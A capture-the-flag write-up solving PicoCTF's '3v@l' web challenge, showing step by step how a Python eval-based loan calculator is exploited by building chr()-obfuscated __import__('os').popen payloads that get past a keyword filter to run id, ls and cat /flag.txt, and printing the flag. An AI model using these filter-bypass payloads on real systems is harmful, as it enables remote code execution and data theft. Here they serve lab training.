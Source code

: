 ```yaml
---
title: "3v@l"
description: "ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an `eval` function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?\n\nHint: Bypass regex\nHint: The flag file is `/flag.txt`\nHint: You might need encoding or dynamic construction to bypass restrictions."
pubDate: 2025-03-25
category: "web"
author: "sealldev"
section: "PicoCTF"
tags: ["medium"]
---
```


We start with a webserver that has a 'loan calculator':
![home.png](./images/picoctf/3v@l/home.png)

The description mentions they are using an `eval`, so to test it to start with let's use `1+1`.
![result2.png](./images/picoctf/3v@l/result2.png)

> Note: From now I'll just have the 'Result' line for an output instead of screenshots.

So, do we have any other information? Checking the request headers we can see this: `Server: Werkzeug/3.0.6 Python/3.8.10`. This tells us it's a Python webserver which helps with payloads.

I look up for any articles talking about exploiting eval in Python and find [an article talking about Code Execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/#arbitrary-code-execution).
![rce.png](./images/picoctf/3v@l/rce.png)

Let's try one of these payloads!
```
Error: Detected forbidden keyword 'os'.
```

Oh, so we have filtering! Let's find a way to not use `os`. As our payload has `os` as a string, we can obfuscate it using `chr()`'s in Python. Going to a Python CLI:
```
>>> ord('o')
111
>>> ord('s')
115
>>> chr(111)+chr(115)
'os'
```

So let's use `chr`'s (we are using `.popen(...).read()` instead of `.system()` as the output isn't printed):
```
__import__(chr(111)+chr(115)).popen('id').read()
```

We get a result:
```
Result: uid=999(app) gid=999(app) groups=999(app) 
```

So this works! Let's start `ls`ing for a fla-
```
Error: Detected forbidden keyword 'ls'.
```

Ugh alright, more `chr()`'s (This represents `ls /`)...
```
__import__(chr(111)+chr(115)).popen(chr(108)+chr(115)+chr(32)+chr(47)).read()
```

```
Result: app bin boot challenge dev etc flag.txt home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var 
```

There's our flag at `/flag.txt`! Let's make a payload (it censors `cat` and `.`'s so let's escape those):
```
__import__(chr(111)+chr(115)).popen(chr(99)+'at'+chr(32)+chr(47)+'flag'+chr(46)+'txt').read()
```

This uses `cat /flag.txt`, which gets the flag!

Flag: `picoCTF{D0nt_Use_Unsecure_f@nctions0cd8a9f1}`

